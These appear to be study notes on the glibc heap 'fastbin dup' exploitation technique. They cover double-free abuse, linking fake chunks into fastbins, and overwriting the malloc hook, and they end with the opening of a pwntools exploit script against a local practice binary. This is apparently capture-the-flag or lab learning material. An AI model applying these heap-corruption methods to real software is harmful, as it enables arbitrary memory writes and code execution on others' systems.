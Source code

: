 - This may yield an opportunity to read from or write to a chunk that is allocated for another purpose. Alternatively, it could be used to tamper with fastbin metadata, specifically the forward pointer (fd) of the double-freed chunk. This may allow a fake chunk to be linked into the fastbin which can be allocated, then used to read from or write to an arbitrary location. Fake chunks allocated in this way must pass a size field check which ensures their size field value matches the chunk size of the fastbin they are being allocated from. 
- Watch out for incompatible flags in fake size fields, a set NON_MAIN_ARENA flag with a clear CHUNK_IS_MMAPPED flag can cause a segfault as malloc attempts to locate a non-existent arena. 


### Approach

Leverage a ***double-free bug*** to coerce malloc into ***returning the same chunk twice***, without freeing it in between. This technique is typically capitalised upon by corrupting fastbin metadata to ***link a fake chunk into a fastbin***. This fake chunk can be allocated, then program functionality could be used to ***read from or write to an arbitrary memory location.***
### Further use 

***The malloc hook*** is a good target for this technique, the 3 most-significant bytes of the _IO_wide_data_0 vtable pointer can be used in conjunction with part of the succeeding padding quadword to form a **reliable 0x7f size field.** 
- **This works because allocations are subject neither to alignment checks nor to flag corruption checks.**  


### Limitations 

***The fastbin size field check*** during allocation limits candidates for fake chunks. 




### Fastbin dup 1

overwrite.py
```python
from pwn import *

context.log_level = 'debug'
context.binary = elf = ELF('./fastbin_dup', checksec=False)
libc = elf.libc
gs = """

"""
index = 0

def start():
    if args.GDB:
        return gdb.debug(elf.path,env={"LD_PRELOAD": libc.path} ,gdbscript=gs)
    else:
        return process(elf.path)
    
def send_name(name):
    io.sendafter(b'Enter your username: ', name)

def info(mes):
    return log.info(mes)
    
def malloc(size, data):
    global index
    io.send(b'1')
    io.sendafter(b'size: ', f'{size}'.encode())
    io.sendafter(b'data: ', data)
    io.recvuntil(b'> ')
    index += 1
    return index -1
```